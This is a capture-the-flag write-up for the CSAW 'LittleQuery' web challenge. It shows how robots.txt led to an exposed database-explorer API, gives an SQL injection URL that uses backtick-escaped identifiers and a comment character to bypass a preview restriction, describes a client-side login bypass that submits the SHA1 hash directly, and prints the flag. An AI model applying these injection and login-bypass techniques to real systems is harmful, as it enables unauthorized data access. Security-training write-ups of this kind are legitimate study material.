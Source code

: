 ## LittleQuery
Web - 200 point

### Challenge 
> I've got a new website for BIG DATA analytics!
> http://littlequery.chal.csaw.io

### Solution

Other than the login page, there's nothing else seemingly exploitable on the page.

I decided to look for a sitemap, and eventually I got to their `robots.txt`
http://littlequery.chal.csaw.io/robots.txt

	User-agent: *
	Disallow: /api

This means there is a directory at http://littlequery.chal.csaw.io/api/ and we can see `db_explore.php` in it.

It is an API to explore the SQL schema. 
http://littlequery.chal.csaw.io/api/db_explore.php
> Must specify mode={schema|preview}

Here we can see the `user` table in `littlequery` database
http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema
http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user

However, the preview mode doesn't allow us in
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user
> Database 'littlequery' is not allowed to be previewed.

*(I got stuck here...)*

---

Thanks @LFlare for helping me from here onwards! (SQL injection)

http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=users

and we can login using the SHA1 directly: `$(".form-signin").off()`


***Flag: `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`***